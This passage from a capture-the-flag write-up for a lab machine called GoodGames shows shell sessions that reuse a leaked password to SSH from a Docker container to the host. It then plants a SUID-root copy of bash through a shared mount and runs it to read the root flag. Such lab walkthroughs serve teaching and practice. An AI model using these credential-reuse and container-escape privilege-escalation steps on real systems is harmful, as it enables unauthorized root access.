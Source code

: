 There is a good chance we can reuse our credentials so ssh into the host machine as `augustus:superadministrator` and it goes through!

```
root@3a453ab39d3d:/backend# ssh augustus@172.19.0.1           
ssh augustus@172.19.0.1                       
The authenticity of host '172.19.0.1 (172.19.0.1)' can't be established.                                                                                                                     
ECDSA key fingerprint is SHA256:AvB4qtTxSVcB0PuHwoPV42/LAJ9TlyPVbd7G6Igzmj0.
Are you sure you want to continue connecting (yes/no)? yes
yes                                           
Warning: Permanently added '172.19.0.1' (ECDSA) to the list of known hosts.
augustus@172.19.0.1's password: superadministrator

Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright. 

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
augustus@GoodGames:~$
```

# Root

If we remember from before the path `/home/augustus` was mounted to the docker container. We might be able to copy `/bin/bash` to `/home/augustus` and use our root privilege's on the docker container to change the owner and SUID permissions to allow augustus to run it as root

Notice the euid is set to 0 allowing us to run things as root

```
augustus@GoodGames:~$ cp /bin/bash .
augustus@GoodGames:~$ ls
ls
bash user.txt
augustus@GoodGames:~$ exit
logout
Connection to 172.19.0.1 closed.

root@3a453ab39d3d:/home/augustus# chown root:root bash
root@3a453ab39d3d:/home/augustus# chmod 4755 bash
root@3a453ab39d3d:/home/augustus# ssh augustus@172.19.0.1
augustus@172.19.0.1's password: superadministrator

Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Mar  4 21:52:23 2022 from 172.19.0.2

augustus@GoodGames:~$ ls -la
total 1984
...
-rwsr-xr-x 1 root     root     1234376 Mar  4 21:52 bash
-rw-r----- 1 root     augustus      33 Mar  4 20:14 user.txt
...

augustus@GoodGames:~$ ./bash -p
bash-5.1# cat /root/root.txt
cat /root/root.txt
```